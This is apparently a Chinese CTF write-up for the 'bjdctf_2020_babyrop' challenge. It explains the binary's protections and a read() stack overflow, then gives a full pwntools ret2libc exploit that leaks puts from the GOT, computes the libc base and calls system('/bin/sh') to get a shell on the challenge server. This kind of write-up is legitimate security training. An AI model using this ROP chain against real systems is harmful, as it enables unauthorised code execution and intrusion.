

# 知识点

ret2libc


# 题目分析

1. 检查保护情况。64位程序，开启NX保护。

   ```bash
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，发现存在read栈溢出漏洞。

   

3. 题目提供了puts函数，可以泄露got表地址。进而ret2libc。


# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babyrop')
io = remote('node4.buuoj.cn', '26675')
elf = ELF('./bjdctf_2020_babyrop')
libc = ELF('./libc-2.23.so')

main = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

pop_rdi = 0x400733

# leak puts
payload = 'A' * 0x20 + 'deadbeef'
payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.send(payload)
puts_real = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))

# libc
libc_base = puts_real - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()

# ret2libc
payload = 'A' * 0x20 + 'deadbeef'
payload += p64(pop_rdi) + p64(binsh) + p64(system) + p64(main)
io.send(payload)

io.interactive()
```

